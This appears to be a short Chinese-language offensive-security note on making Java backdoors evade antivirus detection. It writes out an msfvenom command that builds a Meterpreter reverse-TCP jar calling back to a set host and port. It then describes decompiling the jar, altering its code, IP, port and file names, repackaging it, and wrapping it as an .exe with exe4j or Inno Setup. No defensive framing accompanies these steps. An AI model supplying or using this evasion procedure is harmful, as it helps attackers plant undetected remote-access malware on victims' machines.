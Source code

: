 ## **java免杀**
java一般是webshell免杀

对于可执行文件上线后门
一是msf生成jar后，执行java -jar payload.jar时免杀。
二是jar打包成exe可执行文件后，免杀。


^
**对于一，需要用jd-gui反编译jar后，修改代码，再重新打包成jar包。**
msfvenom -p java/meterpreter/reverse_tcp LHOST=192.168.20.128 LPORT=6688 -f jar -o 6688.jar

反编译后会生成三个文件，META-INF、java、bat
bat中为ip和端口号。
全部修改，文件名修改。



1. 编译Java文件：
   ```
   javac HelloWorld.java
   ```

2. 创建 `META-INF` 目录和 `MANIFEST.MF` 文件：
   ```
   mkdir META-INF
   echo 'Manifest-Version: 1.0' > META-INF/MANIFEST.MF
   echo 'Created-By: 1.8.0_231 (Oracle Corporation)' >> META-INF/MANIFEST.MF
   echo 'Main-Class: HelloWorld' >> META-INF/MANIFEST.MF
   ```

3. 打包成 `.jar` 文件：

   ```
   jar cfm HelloWorld.jar META-INF/MANIFEST.MF HelloWorld.class
   ```

4. 运行 `.jar` 文件：

   ```
   java -jar HelloWorld.jar
   ```


^
**对于二，使用exe4j 或inno进行打包exe**
exe4j-下载链接：https://exe4j.apponic.com/
inno-下载链接：https:/jrsoftware.org/isdl.php
操作说明：https://www.jb51.net/article/236000.htm